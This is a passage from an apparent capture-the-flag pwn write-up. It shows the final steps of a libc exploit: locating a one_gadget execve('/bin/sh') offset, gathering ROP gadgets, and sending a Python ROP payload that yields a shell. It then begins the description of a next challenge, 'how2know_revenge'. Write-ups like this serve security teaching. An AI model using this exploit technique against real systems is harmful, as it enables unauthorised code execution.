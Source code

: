 3. Construct `one_gadget`
Use `vmmap` to check which `libc` version be used - <font color="FF0000">`/lib/x86_64-linux-gnu/libc-2.31.so`</font>
![](https://imgur.com/2hTs3o4.png)
    ```bash!
    $ one_gadget /lib/x86_64-linux-gnu/libc-2.31.so
    ...
    0xe3afe execve("/bin/sh", r15, r12)
    constraints:
      [r15] == NULL || r15 == NULL
      [r12] == NULL || r12 == NULL
    ...
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc-2.31.so --only "pop|ret" --multibr > one_gadget
    $ vim one_gadget
    ```
    ```python!
    pop_r15_ret = libc_addr + 0x2a3e4
    pop_r12_ret = libc_addr + 0x2f709
    r.send(p64(0) * 3 + p64(pop_r12_ret) + p64(0) + p64(libc_addr+0xe3afe))
    ```
    <font color="FF0000">Note that</font> `$r15` has NULL already before `read` function, so it's no need to send `pop_r15_ret`.
    ![](https://imgur.com/SK0U7Mn.png)
4. Then we got shell!!!
![](https://imgur.com/3zRhmUG.png)


#### Reference
[gdb指令](https://lu-yi-hsun.github.io/posts/reverse/gdb/#dwarf)
[Linux中誰來呼叫C語言中的main?](http://wen00072.github.io/blog/2015/02/14/main-linux-whos-going-to-call-in-c-language/)
[Docker exec 命令](https://www.runoob.com/docker/docker-exec-command.html)
### how2know_revenge
#### Description
* Challenge: `nc edu-ctf.zoolab.org 10012`
* Environment Version: Ubuntu 20.04
* Folder structure:
    ```
    Share
    ├── share
    │   ├── chal
    │   ├── flag
    │   ├── Makefile
    │   ├── how2know_revenge.c
    │   └── run.sh
    ├── docker-compose.yaml
    ├── Dockerfile
    └── xinetd
    ```
